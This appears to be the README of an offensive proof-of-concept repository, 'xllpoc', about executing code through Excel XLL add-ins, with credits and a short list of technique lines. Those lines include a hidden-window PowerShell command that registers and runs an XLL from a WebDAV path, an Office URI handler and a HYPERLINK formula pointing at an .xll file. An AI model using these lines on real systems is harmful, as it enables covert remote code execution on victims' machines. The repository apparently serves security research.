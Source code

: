 # xllpoc
Code Exec via Excel

<table>
<tr<td>><strong>Credit</strong></td><tr><br>
<tr><td>EdParcell: https://github.com/edparcell/HelloWorldXll</td></tr><br>
<tr><td>MSDN: https://msdn.microsoft.com/en-us/library/office/bb687883.aspx</li><br> 
<tr><td>Ryan Hanson: https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52</li><br>
<tr><td>Google Groups: https://groups.google.com/forum/#!msg/exceldna/d2ogsPkv6YM/NGnSrU9tmpMJ</li><br>
<tr><td>Many others</td></tr>
</table>
<br><br>

<table>
<tr><td><strong>Interesting</strong></td></tr><br>
<tr><td>ms-word:nft|u|http://PATH</td></tr> <br>
<tr><td>powershell -w hidden -c "IEX ((new-object -ComObject excel.application).RegisterXLL('\\webdavxll_poc.xll')"</td></tr><br>
<tr><td>=HYPERLINK("http://127.0.0.1/xll.xll", "CLICK")</td></tr><br>
</table>
